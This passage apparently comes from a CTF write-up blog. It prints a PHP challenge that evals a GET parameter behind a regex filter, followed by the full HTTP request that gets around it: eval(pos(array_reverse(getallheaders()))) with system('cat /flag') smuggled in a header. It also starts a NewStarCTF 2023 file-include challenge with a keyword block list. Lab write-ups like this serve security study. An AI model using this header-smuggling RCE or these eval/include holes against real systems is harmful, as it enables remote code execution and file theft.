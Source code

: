 ![img](https://img-blog.csdnimg.cn/ff1f0b838889424d812b5b996eeac09a.png)



![img](https://img-blog.csdnimg.cn/449c0217410643afb1d5a17502102f5b.png)



```php
<?php
highlight_file(__FILE__);
if (';' === preg_replace('/[^\W]+\((?R)?\)/', '', $_GET['star'])) {
    if(!preg_match('/high|get_defined_vars|scandir|var_dump|read|file|php|curent|end/i',$_GET['star'])){
        eval($_GET['star']);
    }
}
```



 无参rce

> GET /bo0g1pop.php?star=eval(pos(array_reverse(getallheaders()))); HTTP/1.1
>  Host: 33cdfd6e-b9e5-4b7e-b9c8-137432315e44.node4.buuoj.cn:81
>  Content-Length: 0
>  X-Forwarder-Proto:system('cat /flag');
>  Upgrade-Insecure-Requests: 1
>  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36
>  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
>  Accept-Encoding: gzip, deflate
>  Accept-Language: zh-CN,zh;q=0.9
>  Connection: close

![img](https://img-blog.csdnimg.cn/04778286d3c843c59c300c96c462adb3.png)





## [NewStarCTF 2023 week3] Include 🍐

```php
<?php
    error_reporting(0);
    if(isset($_GET['file'])) {
        $file = $_GET['file'];
        
        if(preg_match('/flag|log|session|filter|input|data/i', $file)) {
            die('hacker!');
        }
        
        include($file.".php");
        # Something in phpinfo.php!
    }
    else {
        highlight_file(__FILE__);
    }
?>
```
